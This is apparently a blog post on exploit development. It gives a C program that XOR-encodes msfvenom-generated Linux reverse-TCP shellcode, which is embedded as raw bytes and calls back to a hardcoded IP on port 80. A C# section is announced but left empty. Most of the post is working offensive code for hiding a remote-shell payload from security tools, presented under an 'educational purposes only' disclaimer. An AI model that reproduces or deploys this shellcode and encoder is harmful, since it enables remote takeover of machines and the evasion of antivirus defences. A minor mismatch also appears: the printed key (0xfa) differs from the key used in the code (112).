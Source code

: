 ```yaml
---
layout: post
title: Custom Encryptor & Helpers | Variations
categories: xdev
permalink: /:categories/helpers/
---  
```


All exploits are written my myself and are for educational purposes only, i would not be liable for any misuse!

###Helpers and encryptors 
CSharp XOR Helper

Below is a csharp shellcode XOR helper, the decryption routine is also incuded in the comments
```csharp

```


<br>
<br>
<br>
C Shellcode XOR Helper 

```C

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

// To compile:
// gcc simpleXORencoder.c -o simpleXORencoder

// msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.49.67 LPORT=80 -f c
unsigned char buf[] = 
"\x48\x31\xff\x6a\x09\x58\x99\xb6\x10\x48\x89\xd6\x4d\x31\xc9"
"\x6a\x22\x41\x5a\xb2\x07\x0f\x05\x48\x85\xc0\x78\x51\x6a\x0a"
"\x41\x59\x50\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05"
"\x48\x85\xc0\x78\x3b\x48\x97\x48\xb9\x02\x00\x01\xbb\xc0\xa8"
"\x31\xa4\x51\x48\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x59"
"\x48\x85\xc0\x79\x25\x49\xff\xc9\x74\x18\x57\x6a\x23\x58\x6a"
"\x00\x6a\x05\x48\x89\xe7\x48\x31\xf6\x0f\x05\x59\x59\x5f\x48"
"\x85\xc0\x79\xc7\x6a\x3c\x58\x6a\x01\x5f\x0f\x05\x5e\x6a\x7e"
"\x5a\x0f\x05\x48\x85\xc0\x78\xed\xff\xe6";



int main (int argc, char **argv)
{
        int key = 112;
        int buf_len = (int) sizeof(buf);

        printf("XOR payload (key 0xfa):\n");

        for(int i=0; i<buf_len; i++)
        {
                printf("\\x%02X",buf[i]^key);
        }

        return 0;
}```



